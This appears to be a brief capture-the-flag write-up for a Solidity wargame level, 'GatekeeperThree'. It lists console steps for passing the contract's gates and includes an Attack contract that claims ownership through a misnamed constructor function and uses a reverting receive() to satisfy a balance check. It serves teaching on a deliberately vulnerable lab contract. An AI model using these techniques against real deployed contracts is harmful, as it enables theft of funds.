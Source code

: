 ## Description
send 200000000000000 for gateThree() first modifier - balance checks
await contract.createTrick() create and find the block number
![](block_number.png)

By block number find timestamp - await web3.eth.getBlock(6240198)

Get True in allowEntrance - await contract.getAllowance(1720039884)
```
contract Attack{
    GatekeeperThree public gatekeeperThree;

    constructor(address payable _gatekeeperThree){
        gatekeeperThree = GatekeeperThree(_gatekeeperThree);
    }

    function attack() public {
        gatekeeperThree.construct0r();
        gatekeeperThree.enter();
    }

    receive() external payable {
        revert();
    }

}
```